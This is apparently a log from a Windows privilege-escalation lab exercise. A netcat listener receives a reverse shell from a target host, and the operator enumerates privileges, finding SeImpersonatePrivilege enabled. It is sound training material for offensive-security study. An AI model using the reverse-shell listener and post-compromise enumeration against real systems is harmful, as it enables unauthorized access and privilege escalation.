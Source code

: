 ```
nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah


C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
```